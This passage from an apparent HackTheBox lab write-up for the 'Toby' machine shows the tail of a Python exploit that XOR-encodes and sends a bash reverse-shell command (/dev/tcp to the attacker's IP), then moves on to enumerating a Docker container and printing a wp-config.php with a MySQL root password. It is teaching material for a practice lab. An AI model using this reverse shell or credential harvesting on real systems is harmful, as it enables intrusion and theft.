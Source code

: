     print(f'[*] XOR key: {xor_chr.decode()}')
    xor = ord(xor_chr)
    
    cmd = f"bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'".encode()
    encoded_cmd = bytes([x^xor for x in cmd])
    print(f'[*] Triggering shell. Watch at listening nc.')
    c.send(encoded_cmd)
    resp = c.recv(1024).strip()
    new_guid, msg = resp.split(b'|')
    assert(new_guid == guid)
    pt_msg = bytes([x^xor for x in unhexlify(msg)]).decode()
    print(f'{pt_msg}')
    
    c.close()
    s.close()    
    

On running this, I get a reverse shell at a listening `nc`.

There were some interesting timing issues I ran into writing this, which I’ll
go into on [this video](https://youtu.be/IF7bPHRDlv8):

## Shell as jack on mysql

### Enumeration

#### Docker

Very quickly it’s clear that I’m in a Docker container. There’s very few tools
(no `ping`, `ifconfig`, `ip`, `ss`, `netstat`, etc.), `/home` is empty, and
there’s a `.dockerenv` file in the system root. The hostname is
wordpress.toby.htb. `/proc/net/fib_trie` shows an IP of 172.69.0.101.

The container is pretty empty. There’s a password and hostname for the MySQL
DB in `/var/www/html/wp-config.php`:

    
    
    ...[snip]...
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );           
                                                        
    /** MySQL database username */                                                                           
    define( 'DB_USER', 'root' );
                                                        
    /** MySQL database password */
    define( 'DB_PASSWORD', 'OnlyTheBestSecretsGoInShellScripts' );       
                                                        
    /** MySQL hostname */
    define( 'DB_HOST', 'mysql.toby.htb' );
                                                        
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
                                                        
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' ); 
    ...[snip]...
    